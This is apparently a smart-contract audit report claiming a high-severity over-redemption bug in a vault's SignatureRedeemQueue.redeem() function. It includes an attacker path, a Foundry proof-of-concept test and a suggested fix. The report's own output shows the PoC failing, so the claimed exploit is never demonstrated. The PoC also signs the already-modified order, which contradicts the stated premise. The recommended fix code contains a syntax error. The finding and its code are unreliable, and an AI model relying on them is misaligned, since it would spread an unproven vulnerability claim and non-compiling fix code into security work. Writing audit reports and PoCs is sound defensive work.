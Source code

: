 ### [H-02] Missing validation of requested amount allows over-redeem in redeem() function

_Severity:_ High

_Source:_ https://github.com/sherlock-audit/2025-07-mellow-flexible-vaults-Yahaya-Salisu/blob/main/flexible-vaults%2Fsrc%2Fqueues%2FSignatureRedeemQueue.sol#L13-L28


### Summary
The `redeem()` function in `signatureRedeemQueue.sol` extents `signatureQueue` to enable instant share redemption from a vault without the usual delay of on-chain oracle processing.

The function calls `validateOrder()` and both of the functions do not check if the `requested > ordered`, meaning that if a user calls `redeem()` with a requested amount that exceeds ordered amount, the redemption will still proceed even if the `requested > ordered`, this allows users to potentially drain the vaults

```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

  // ⚠️ BUG: there's no check to ensure requested <= ordered
        if (order.requested > vault_.getLiquidAssets()) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

// burns the shares without checking if requested > ordered
        vault_.shareManager().burn(order.recipient, order.ordered);

           ...

        emit OrderExecuted(order, signatures);
    }
```

This bug is similar in nature to `[H-01]` found in `RedeemQueue.sol`, but due to the separation of contract logic and exploit surface, this report addresses a distinct instance.


### Internal Preconditions
If a trusted party like admin or validator has signed a message granting a user an ordered amount, which can be redeemed via SignatureRedeemQueue.redeem().


### External Preconditions
A user has to get signed ordered amount first and then calls `redeem()` with a `requested > ordered`.


### Attacker Path
1. A user got a valid signed order for `1,000`.
2. And then modifies requested amount to `1,010` even though the signed ordered is `1000`.
3. And the user calls `redeem()` with valid signatures and redemption succeeds as long as vault has >= 1,010 in liquid assets.


### Impact:
This vulnerability allows a user to redeem more assets than they are allowed to redeem, and inflating their authorized withdrawal by exploiting a missing validation. This leads to permanent imbalance in the vault, dilution of shares, and potential loss of funds for other users.


### Proof of concept:
The PoC below shows how a user got signed ordered of 1,000, and the user calls redeem with a `requested > ordered`, but the transaction fails due to InsufficientAsset in the vault.

If the vault has sufficientAsset, the user can redeem requested amount even though `requested > ordered`.

```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity 0.8.25;

import "../../Fixture.t.sol";
import "../../Imports.sol";
import "forge-std/console.sol";

contract SignatureRedeemQueueTest is FixtureTest {
    address vaultAdmin = vm.createWallet("vaultAdmin").addr;
    address vaultProxyAdmin = vm.createWallet("vaultProxyAdmin").addr;
    address user = vm.createWallet("user").addr;
    address asset;
    address[] assetsDefault;

    function setUp() external {
        asset = address(new MockERC20());
        assetsDefault.push(asset);
    }

    function testRedeem() external {
        Deployment memory deployment = createVault(vaultAdmin, vaultProxyAdmin, assetsDefault);

        uint256 signerPk = uint256(keccak256("signer"));
        address signer = vm.addr(signerPk);
        address[] memory signers = new address[](1);
        signers[0] = signer;
        (Consensus consensus,) = createConsensus(deployment, signers);
        SignatureRedeemQueue queue =
            SignatureRedeemQueue(addSignatureRedeemQueue(deployment, vaultProxyAdmin, asset, address(consensus)));

        uint256 amount = 1000;
        uint256 requested = 1000 + 10;

        ISignatureQueue.Order memory order = ISignatureQueue.Order({
            orderId: 1,
            queue: address(queue),
            asset: asset,
            caller: user,
            recipient: user,
            ordered: amount,
            requested: requested,
            deadline: block.timestamp + 1 days,
            nonce: 0
        });
        IConsensus.Signature[] memory signatures = new IConsensus.Signature[](1);
        signatures[0] = signOrder(queue, order, signerPk);
        {
            Oracle oracle = deployment.oracle;
            IOracle.Report[] memory reports = new IOracle.Report[](1);
            uint224 price = 1e18;
            reports[0] = IOracle.Report({asset: asset, priceD18: price});
            vm.startPrank(vaultAdmin);
            oracle.submitReports(reports);
            oracle.acceptReport(asset, price, uint32(block.timestamp));
            vm.stopPrank();
        }

        vm.prank(address(queue));
        deployment.shareManager.mint(user, amount);
        MockERC20(asset).mint(address(deployment.vault), amount);
        
        console.log("Vault token balance:", MockERC20(asset).balanceOf(address(deployment.vault)));
        console.log("Requested:", order.requested);
        console.log("Ordered:", order.ordered);

        vm.prank(user);
        queue.redeem(order, signatures);

        assertEq(MockERC20(asset).balanceOf(user), requested, "User should receive assets");
    }

    function signOrder(SignatureQueue queue, ISignatureQueue.Order memory order, uint256 pk)
        internal
        view
        returns (IConsensus.Signature memory)
    {
        bytes32 hash = queue.hashOrder(order);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(pk, hash);
        return IConsensus.Signature({signer: vm.addr(pk), signature: abi.encodePacked(r, s, v)});
    }
}
```


Run test with
```bash
forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
```

Test Output
![PoC output](https://github.com/user-attachments/assets/f9bc1703-a3b6-419e-82b7-b4e27809b55f)

```bash
$ forge test --fork-url $(grep ETH_RPC .env | cut -d '=' -f2) --gas-limit 10000000000000000 --fork-block-number 22730425 -vvv --match-path './test/unit/queues/SignatureRedeemQueueTest.t.sol'
[⠘] Compiling...
[⠑] Compiling 1 files with Solc 0.8.25
[⠃] Solc 0.8.25 finished in 49.63s
Compiler run successful!

Ran 2 tests for test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[PASS] test() (gas: 185)
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)
Logs:
  Vault token balance: 1000
  Requested: 1010
  Ordered: 1000

Traces:
  [39807988] SignatureRedeemQueueTest::testRedeem()

                               ...

│   │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    │   └─ ← [Revert] InsufficientAssets(1010, 1000)
    └─ ← [Revert] InsufficientAssets(1010, 1000)

Suite result: FAILED. 1 passed; 1 failed; 0 skipped; finished in 39.77ms (31.57ms CPU time)

Ran 1 test suite in 4.12s (39.77ms CPU time): 1 tests passed, 1 failed, 0 skipped (2 total tests)

Failing tests:
Encountered 1 failing test in test/unit/queues/SignatureRedeemQueueTest.t.sol:SignatureRedeemQueueTest
[FAIL: InsufficientAssets(1010, 1000)] testRedeem() (gas: 39807988)

Encountered a total of 1 failing tests, 1 tests succeeded
```



### Recommendation:
```solidity
    function redeem(Order calldata order, IConsensus.Signature[] calldata signatures) external payable nonReentrant {
        validateOrder(order, signatures);
        _signatureQueueStorage().nonces[order.caller]++;
        IShareModule vault_ = IShareModule(vault());

// FIX: after checking vault liquidAsset, check if requested > ordered 
        if (order.requested > vault_.getLiquidAssets(), || order.requested > order.ordered) {
            revert InsufficientAssets(order.requested, vault_.getLiquidAssets());
        }

        vault_.shareManager().burn(order.recipient, order.ordered);
      ...
        emit OrderExecuted(order, signatures);
    }
```
